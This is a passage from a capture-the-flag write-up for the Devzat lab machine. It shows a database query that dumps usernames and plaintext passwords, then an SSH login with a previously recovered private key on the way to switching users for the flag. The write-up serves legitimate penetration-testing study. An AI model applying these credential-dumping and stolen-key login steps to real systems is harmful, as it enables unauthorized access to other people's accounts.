 Username and password sound interesting so we retrieve the values for them.

```
[devzat] Insert query (exit to change db): SELECT "username", "password" FROM "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "username",
                        "password"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            "wilhelm",
                            "WillyWonka2021"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            "catherine",
                            "woBeeYareedahc7Oogeephies7Aiseci"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            "charles",
                            "RoyalQueenBee$"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

The only user that actually exists on the machine is catherine. Password authentication is disabled for ssh so we set the correct permissions on the earlier found ssh key for patrick, ssh into the machine and switch to catherine. Now we can add the user flag to our collection.

```
$ chmod 600 patrick
$ ssh -i patrick patrick@devzat.htb
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 16 Oct 2021 09:17:27 PM UTC

  System load:  0.0               Processes:                247
  Usage of /:   59.7% of 7.81GB   Users logged in:          0
  Memory usage: 34%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for eth0:    10.129.95.249


107 updates can be applied immediately.
33 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

```